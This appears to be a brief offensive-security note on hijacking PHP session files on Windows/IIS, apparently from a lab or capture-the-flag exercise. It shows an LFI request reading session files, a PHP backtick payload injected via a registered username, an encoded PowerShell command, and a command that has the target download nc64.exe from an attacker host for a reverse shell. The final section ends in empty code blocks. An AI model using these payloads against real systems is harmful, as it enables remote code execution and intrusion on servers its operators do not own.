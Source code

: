 # PHP Session Cookie Hijacking

---

## In Windows

php session cookies of users are getting stored in C:\Windows\Temp\sess_<sess_cookie_id>
If there is anyway that u can enumerate this file and see the content's u can check if it's possible to inject an php file inside the variable stored. For Example it could be that the session cookie get's stored inside ur username variable e.G "saitama".

## Example

We enumerated through LFI that the session cookie got stored inside an username variable.

```
curl http://10.129.229.6/blog/?lang=/Windows/Temp/sess_q4luf3f63it7tjjf1qk6lg52qf
</html>
username|s:7:"saitama";</body>
</html>
```

We see that PHP binded the session cookie to "saitama" which was the user we registered.

## PoC 

This PoC checks if command injection is working. The symbol ` is an alias for PHP's exec, there anything inside it will be executed.

```
<?=`powershell whoami`?>
```

So this is the initial PoC, but in order to be able to execute it, PHP will have to fuze this command into the server. Which is possible by a logical flaw. We can create an user called <?=`powershell whoami`?>. Since this is IIS and there is stronger protection on windows we will have to convert the command first of all using UTF-16LE and then base64 encoded it aswell.

```
echo whoami | iconv -t utf-16le | base64
dwBoAG8AYQBtAGkACgA=
```

The final payload would be:

```
<?=`powershell /enc dwBoAG8AYQBtAGkACgA=`?>
```

## Reverse Shell PoC Netcat

Creating Payload which downloads nc64.exe binary onto target system.

```
echo "wget http://10.10.14.239/nc64.exe -o C:\\Windows\\TEMP\\nc64.exe" | iconv -t UTF-16LE | base64
```



```

```



```

```



```

```
